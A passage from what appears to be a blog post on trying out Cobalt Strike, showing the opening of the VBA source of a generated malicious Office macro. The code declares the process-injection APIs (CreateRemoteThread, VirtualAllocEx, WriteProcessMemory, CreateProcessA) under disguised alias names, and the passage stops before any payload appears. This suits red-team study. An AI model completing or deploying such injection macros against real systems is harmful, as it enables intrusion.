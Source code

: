 ![Screenshot of Listener for Macro](/img/playing-with-cobalt-strike-3.webp)

Upon generation of the macro, Cobalt Strike displayed macro deployment instructions. Red teaming is fool-proof these days!

![Screenshot of Macro Deployment Instructions](/img/playing-with-cobalt-strike-4.webp)

Here is the source code of the macro:

```vb
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
```